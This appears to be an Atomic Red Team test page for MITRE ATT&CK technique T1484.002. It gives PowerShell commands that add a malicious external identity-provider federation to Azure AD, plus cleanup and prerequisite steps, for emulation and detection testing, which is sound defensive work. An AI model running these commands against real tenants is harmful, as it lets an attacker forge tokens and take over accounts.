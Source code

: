 # T1484.002 - Domain Trust Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/002)
<blockquote>Adversaries may add new domain trusts or modify the properties of existing domain trusts to evade defenses and/or elevate privileges. Domain trust details, such as whether or not a domain is federated, allow authentication and authorization properties to apply between domains for the purpose of accessing shared resources.(Citation: Microsoft - Azure AD Federation) These trust objects may include accounts, credentials, and other authentication material applied to servers, tokens, and domains.

Manipulating the domain trusts may allow an adversary to escalate privileges and/or evade defenses by modifying settings to add objects which they control. For example, this may be used to forge [SAML Tokens](https://attack.mitre.org/techniques/T1606/002), without the need to compromise the signing certificate to forge new credentials. Instead, an adversary can manipulate domain trusts to add their own signing certificate.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Add Federation to Azure AD](#atomic-test-1---add-federation-to-azure-ad)


<br/>

## Atomic Test #1 - Add Federation to Azure AD
Add a new federation to Azure AD using PowerShell. The malicious Identity Provider to be added must be configured beforehand.
If ADFS is used as IdP, the Uris parameters can be found at 'https://<federationservice>.<domainname>.com/federationmetadata/2007-06/federationmetadata.xml'

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | String | bruce.wayne@contosocloud.com|
| azure_password | Password of azure_username | String | iamthebatman|
| active_logon_uri | Active Logon Uri, available in federation metadata at <SingleSignOnService Binding="urn:oasis:names:tc:SAML:2.0:bindings:HTTP-POST> field if ADFS is used. | String | https://sts.contoso.com/adfs/ls/|
| issuer_uri | Issuer Uri, available in federation metadata at the "entityID" field if ADFS is used. | String | http://sts.contoso.com/adfs/services/trust|
| metadata_uri | Metadata exchange Uri, available in federation metadata at <Address xmlns="http://www.w3.org/2005/08/addressing"> field if ADFS is used. | String | https://sts.contoso.com/adfs/services/trust/mex|
| public_key | Public key of the X509 signing token certificate, in base64 | String | MzAgODIgMDEgMGEgMD...gZWQgOTkgMDIgMDMgMDEgMDAgMDE=|
| domain_name | New federation domain name | String | contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AzureADPreview
$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
Connect-AzureAD -Credential $Credential > $null
$federationSettings = New-Object Microsoft.Open.AzureAD.Model.DomainFederationSettings
$federationSettings.ActiveLogOnUri = "#{active_logon_uri}"
$federationSettings.IssuerUri = "#{issuer_uri}"
$federationSettings.LogOffUri = $federationSettings.ActiveLogOnUri
$federationSettings.MetadataExchangeUri = "#{metadata_uri}"
$federationSettings.PassiveLogOnUri = $federationSettings.ActiveLogOnUri
$federationSettings.PreferredAuthenticationProtocol = "WsFed"
$federationSettings.SigningCertificate = "#{public_key}"
$new = New-AzureADExternalDomainFederation -ExternalDomainName "#{domain_name}" -FederationSettings $federationSettings
if ($new) { Write-Host "`nFederation successfully added to Azure AD" } else { Write-Host "`nThe federation setup failed" }
Get-AzureADExternalDomainFederation -ExternalDomainName "#{domain_name}"
Write-Host "End of federation configuration."
```

#### Cleanup Commands:
```powershell
Import-Module AzureADPreview
$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
Connect-AzureAD -Credential $Credential > $null
Remove-AzureADExternalFederationDomain -ExternalDomainName "#{domain_name}"
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureADPreview Powershell module must be installed. The Identity Provider to be federated must be configured (outside of the scope of this test).
##### Check Prereq Commands:
```powershell
if (Get-Module AzureADPreview) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureADPreview -Force
```




<br/>
